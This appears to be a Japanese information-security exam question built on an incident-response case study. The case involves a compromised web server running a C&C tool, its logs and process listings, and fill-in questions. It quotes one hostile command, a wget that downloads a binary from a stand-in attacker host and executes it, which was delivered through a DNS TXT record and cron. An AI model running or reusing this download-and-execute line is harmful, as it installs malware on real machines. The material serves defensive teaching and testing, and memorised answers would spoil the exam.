

## 問2 セキュリティインシデントに関する次の記述を読んで、設問に答えよ。

（令和5年度春期 午後I 問2）

R社は、精密機器の部品を製造する従業員250名の中堅の製造業者である。本社に隣接した場所に工場がある。R社のネットワーク構成を図1に示す。

**図1 R社のネットワーク構成**



*DB: データベース ／ FW: ファイアウォール ／ L2SW: レイヤー2スイッチ ／ L3SW: レイヤー3スイッチ ／ メール: 電子メール*
*注記 各サーバは、Linux OSで稼働している。IPアドレスは、受付サーバが192.168.0.1、DBサーバが192.168.0.2、メールサーバが192.168.0.3、製造管理サーバが192.168.1.145である。*

サーバ、FW、L2SW、L3SW及びPCは、情報システム課のU課長、Mさん、Nさんが管理しており、ログがログ管理サーバで収集され、一元管理されている。

DMZ上のサーバのログは常時監視され、いずれかのサーバで1分間に10回以上のログイン失敗が発生した場合に、アラートがメールで通知される。

FWは、ステートフルパケットインスペクション型であり、通信の許可、拒否についてのログを記録する設定にしている。FWでは、インターネットから受付サーバへの通信は443/TCPだけを許可しており、受付サーバからインターネットへの通信はOSアップデートのために443/TCPだけを許可している。インターネットから受付サーバ及びメールサーバへのアクセスでは、FWのNAT機能によってグローバルIPアドレスをプライベートIPアドレスに1対1で変換している。

受付サーバでは、取引先からの受注情報をDBサーバに保管するWebアプリケーションプログラム（以下、アプリケーションプログラムをアプリという）が稼働している。DBサーバでは、受注情報をファイルに変換してFTPで製造管理サーバに送信する情報配信アプリが常時稼働している。これらのアプリは10年以上の稼働実績がある。

### 〔DMZ上のサーバでの不審なログイン試行の検知〕

ある日、Mさんは、アラートを受信した。Mさんが確認したところ、アラートは受付サーバからDBサーバとメールサーバに対するSSHでのログイン失敗によるものであった。また、受付サーバからDBサーバとメールサーバに対してSSHでのログイン成功の記録はなかった。Mさんは、不審に思い、U課長に相談して、不正アクセスを受けていないかどうか、FWのログと受付サーバを調査することにした。

### 〔FWのログの調査〕

ログイン失敗が発生した時間帯のFWのログを表1に示す。

**表1 FWのログ**

| 項番 | 日時 | 送信元アドレス | 宛先アドレス | 送信元ポート | 宛先ポート | 動作 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 1-1 | 04/21 15:00 | a0.b0.c0.d0 ※ | 192.168.0.1 | 34671/TCP | 443/TCP | 許可 |
| 1-2 | 04/21 15:00 | a0.b0.c0.d0 | 192.168.0.1 | 34672/TCP | 443/TCP | 許可 |
| 1-3 | 04/21 15:03 | a0.b0.c0.d0 | 192.168.0.1 | 34673/TCP | 8080/TCP | 拒否 |
| 1-4 | 04/21 15:08 | 192.168.0.1 | a0.b0.c0.d0 | 54543/TCP | 443/TCP | 許可 |
| ⋮ | ⋮ | ⋮ | ⋮ | ⋮ | ⋮ | ⋮ |
| 1-232 | 04/21 15:15 | 192.168.0.1 | 192.168.1.122 | 34215/UDP | 161/UDP | 拒否 |
| 1-233 | 04/21 15:15 | 192.168.0.2 | 192.168.1.145 | 55432/TCP | 21/TCP | 許可 |
| 1-234 | 04/21 15:15 | 192.168.0.2 | 192.168.1.145 | 55433/TCP | 60453/TCP | 許可 |
| ⋮ | ⋮ | ⋮ | ⋮ | ⋮ | ⋮ | ⋮ |
| 1-286 | 04/21 15:20 | 192.168.0.1 | 192.168.1.145 | 54702/TCP | 21/TCP | 許可 |
| 1-287 | 04/21 15:20 | 192.168.0.1 | 192.168.1.145 | 54703/TCP | 22/TCP | 拒否 |
| ⋮ | ⋮ | ⋮ | ⋮ | ⋮ | ⋮ | ⋮ |
| 1-327 | 04/21 15:24 | 192.168.0.1 | 192.168.1.227 | 58065/TCP | 21/TCP | 拒否 |
| 1-328 | 04/21 15:24 | 192.168.0.1 | 192.168.1.227 | 58066/TCP | 22/TCP | 拒否 |
| ⋮ | ⋮ | ⋮ | ⋮ | ⋮ | ⋮ | ⋮ |

*※ a0.b0.c0.d0はグローバルIPアドレスを表す。*

表1のFWのログを調査したところ、次のことが分かった。

- 受付サーバから工場LANのIPアドレスに対してポートスキャンが行われた。
- 受付サーバから製造管理サーバに対してFTP接続が行われた。
- 受付サーバと他のサーバとの間ではFTPのデータコネクションはなかった。
- DBサーバから製造管理サーバに対してFTP接続が行われ、DBサーバから製造管理サーバにFTPの **[ a ]** モードでのデータコネクションがあった。

以上のことから、外部の攻撃者の不正アクセスによって受付サーバが侵害されたが、攻撃者によるDMZと工場LANとの間のファイルの送受信はないと推測した。Mさんは、受付サーバの調査に着手し、Nさんに工場LAN全体の侵害有無の調査を依頼した。

### 〔受付サーバのプロセスとネットワーク接続の調査〕

Mさんは、受付サーバでプロセスとネットワーク接続を調査した。psコマンドの実行結果を表2に、netstatコマンドの実行結果を表3に示す。

**表2 psコマンドの実行結果（抜粋）**

| 項番 | 利用者ID | PID ※1 | PPID ※2 | 開始日時 | コマンドライン |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 2-1 | root | 2365 | 3403 | 04/01 10:10 | `/usr/sbin/sshd -D` |
| 2-2 | app ※3 | 7438 | 3542 | 04/01 10:11 | `/usr/java/jre/bin/java -Xms2g (省略)` |
| 2-3 | app | 1275 | 7438 | 04/21 15:01 | `./srv -c -mode bind 0.0.0.0:8080 2>&1` |
| 2-4 | app | 1293 | 7438 | 04/21 15:08 | `./srv -c -mode connect a0.b0.c0.d0:443 2>&1` |
| 2-5 | app | 1365 | 1293 | 04/21 15:14 | `./srv -s -range 192.168.0.1-192.168.255.254` |

*※1 プロセスIDである。 ※2 親プロセスIDである。 ※3 Webアプリ稼働用の利用者IDである。*

**表3 netstatコマンドの実行結果（抜粋）**

| 項番 | プロトコル | ローカルアドレス | 外部アドレス | 状態 | PID |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 3-1 | TCP | 0.0.0.0:22 | 0.0.0.0:* | LISTEN | 2365 |
| 3-2 | TCP | 0.0.0.0:443 | 0.0.0.0:* | LISTEN | 7438 |
| 3-3 | TCP | 0.0.0.0:8080 | 0.0.0.0:* | LISTEN | 1275 |
| 3-4 | TCP | 192.168.0.1:54543 | a0.b0.c0.d0:443 | ESTABLISHED | 1293 |
| 3-5 | TCP | 192.168.0.1:64651 | 192.168.253.124:21 | SYN_SENT | 1365 |

srvという名称の不審なプロセスが稼働していた。Mさんがsrvファイルのハッシュ値を調べたところ、インターネット上で公開されている攻撃ツールであり、次に示す特徴をもつことが分かった。

- C&C（Command and Control）サーバから指示を受け、子プロセスを起動してポートスキャンなど行う。
- 外部からの接続を待ち受ける"バインドモード"と外部に自ら接続する"コネクトモード"でC&Cサーバに接続することができる。モードの指定はコマンドライン引数で行われる。
- ポートスキャンを実行して、結果をファイルに記録する（以下、ポートスキャンの結果を記録したファイルを結果ファイルという）。さらに、SSH又はFTPのポートがオープンしている場合、利用者IDとパスワードについて、辞書攻撃を行い、その結果を結果ファイルに記録する。
- SNMPv2cでpublicという **[ b ]** 名を使って、機器のバージョン情報を取得し、結果ファイルに記録する。
- 結果ファイルをC&Cサーバにアップロードする。

Mさんは、表1〜表3から、次のように考えた。

- 攻撃者は、一度、srvの **[ c ]** モードで、<u>①C&Cサーバとの接続に失敗した</u>後、srvの **[ d ]** モードで、<u>②C&Cサーバとの接続に成功した</u>。
- 攻撃者は、C&Cサーバとの接続に成功した後、ポートスキャンを実行した。ポートスキャンを実行したプロセスのPIDは、**[ e ]** であった。

Mさんは、受付サーバが不正アクセスを受けているとU課長に報告した。U課長は、関連部署に伝え、Mさんに受付サーバをネットワークから切断するよう指示した。

### 〔受付サーバの設定変更の調査〕

Mさんは、攻撃者が受付サーバで何か設定変更していないかを調査した。確認したところ、<u>③機器の起動時にDNSリクエストを発行して、ドメイン名△△△.comのDNSサーバからTXTレコードのリソースデータを取得し、リソースデータの内容をそのままコマンドとして実行する</u>cronエントリーが仕掛けられていた。Mさんが調査のためにdigコマンドを実行すると、図2に示すようなリソースデータが取得された。

**図2 △△△.comのDNSサーバから取得されたリソースデータ**

```
wget https://a0.b0.c0.d0/logd -q -O /dev/shm/logd && chmod +x /dev/shm/logd && nohup /dev/shm/logd & disown
```

Mさんが受付サーバを更に調査したところ、logdという名称の不審なプロセスが稼働していた。Mさんは、logdのファイルについてハッシュ値を調べたが、情報が見つからなかったので、マルウェア対策ソフトベンダーに解析を依頼する必要があるとU課長に伝えた。Webブラウザで図2のURLからlogdのファイルをダウンロードし、ファイルの解析をマルウェア対策ソフトベンダーに依頼することを考えていたが、U課長から、<u>④ダウンロードしたファイルは解析対象として適切ではない</u>との指摘を受けた。この指摘を踏まえて、Mさんは、調査対象とするlogdのファイルを **[ f ]** から取得して、マルウェア対策ソフトベンダーに解析を依頼した。解析の結果、暗号資産マイニングの実行プログラムであることが分かった。

調査を進めた結果、工場LANへの侵害はなかった。Webアプリのログ調査から、受付サーバのWebアプリが使用しているライブラリに脆弱性が存在することが分かり、これが悪用されたと結論付けた。システムの復旧に向けた計画を策定し、過去に開発されたアプリ及びネットワーク構成をセキュリティの観点で見直すことにした。

---

**設問1** 本文中の **[ a ]** に入れる適切な字句を答えよ。

**設問2** 〔受付サーバのプロセスとネットワーク接続の調査〕について答えよ。

(1) 本文中の **[ b ]** に入れる適切な字句を、10字以内で答えよ。
(2) 本文中の **[ c ]** に入れる適切な字句を、"バインド"又は"コネクト"から選び答えよ。また、下線①について、Mさんがそのように判断した理由を、表1中〜表3中の項番を各表から一つずつ示した上で、40字以内で答えよ。
(3) 本文中の **[ d ]** に入れる適切な字句を、"バインド"又は"コネクト"から選び答えよ。また、下線②について、Mさんがそのように判断した理由を、表1中〜表3中の項番を各表から一つずつ示した上で、40字以内で答えよ。
(4) 本文中の **[ e ]** に入れる適切な数を、表2中から選び答えよ。

**設問3** 〔受付サーバの設定変更の調査〕について答えよ。

(1) 本文中の下線③について、Aレコードではこのような攻撃ができないが、TXTレコードではできる。TXTレコードではできる理由を、DNSプロトコルの仕様を踏まえて30字以内で答えよ。
(2) 本文中の下線④について、適切ではない理由を、30字以内で答えよ。
(3) 本文中の **[ f ]** に入れる適切なサーバ名を、10字以内で答えよ。
